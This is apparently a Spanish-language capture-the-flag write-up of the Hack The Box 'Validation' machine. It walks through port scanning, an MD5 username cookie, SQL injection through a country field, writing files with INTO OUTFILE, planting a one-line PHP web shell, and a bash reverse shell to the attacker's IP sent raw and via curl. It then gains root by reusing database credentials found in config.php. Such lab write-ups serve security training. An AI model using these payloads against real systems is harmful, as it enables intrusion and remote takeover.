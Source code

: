 
#  VALIDATION MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
	- [[#NOTA|NOTA]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.11.116 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.11.116 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/4.png)

vemos que permite agregar participantes segun un pais:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/5.png)

creamos otro y vemos como se mantienen los participantes:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/6.png)

vamos a verlo desde burp suite:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/7.png)

vemos que devuelve una cokie llamada user, vamos a ver si podemos descifrarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/8.png)

usa md5:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/9.png)

la cookie esta almacenando el nombre de usuario en md5, una mala practica.

Vamos a probar un SQLi en el pais al registrar y despues consultamos (refrscamos) la pagina donde muestra los participantes pero con la cookie que se genero:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/11.png)

vemos que es vulerable a SQLi:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/12.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/13.png)

algo que podemos probar es si tiene permisos para crear un archivo en una ruta especifica:

```bash
select "hola mundo" into outfile '/var/www/html/test.txt'
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/14.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/15.png)

vemos que pudo escribir, esto se debe a que debe tener el privilegio **FILE** asignado, comprobemoslo.

primero obtendremos el usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/16.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/17.png)

ahora consultaremos sus permisos:

```bash
select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/18.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/19.png)

vemos que tiene el permiso **FILE** asignado.

ademas vemos que la pagina interpreta PHP:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/20.png)

vamos a crear una pagna que pida por GET un parametro y lo ejecute a nivel de sistema:

```php
<?php system($_REQUEST['cmd']); ?>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/21.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/22.png)

ahora consultamos desde el navegador pero mandamos el parametro por GET "cmd" y le pasmos el comando que queremos ejecutar

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/23.png)

ahora nos mandamos una reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.19/4242 0>&1'
```

pero a la hora de mandar algo con espacios es recomendable hacerlo mediante **urlencoded** asi que lo podemos hacer de dos maneras, con la ayuda del decoder de burpsuite dandole a encode as URL y pasando el resultado al parametro cmd:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/24.png)

o con curl:

```bash
curl 10.10.11.116/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.19/4242 0>&1"'
```

ambos son validos y daran como resultado una reverse shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/25.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/26.png)

## ELEVACION DE PRIVILEGIOS

hacemos un tratamiento de la tty:

```bash
script /dev/null -c bash
[ctrl + Z]
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 53 columns 187
```

nos encontramos en el directorio **/var/www/html** y vemos un archivo llamado config.php, estos suelen contener informacion de conexiones y API keys:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/27.png)

vemos unas credenciales de base de datos pero el puerto no esta abierto y tampoco lo esta local, pero no perdemos nada intenta usar para el usuario root ya que es un linux:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/28.png)

somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/VALIDATION/images/29.png)

### NOTA

si se tiene un SQLi verificar si puede escribir archivos:

```bash
select "hola mundo" into outfile '/var/www/html/test.txt'
```

si necesitas mandar un parametro por GET con espacios es mejor hacer un urlencode.

para tener mayor funcionalidad es recomendable hacer un tratamiento de la TTY.

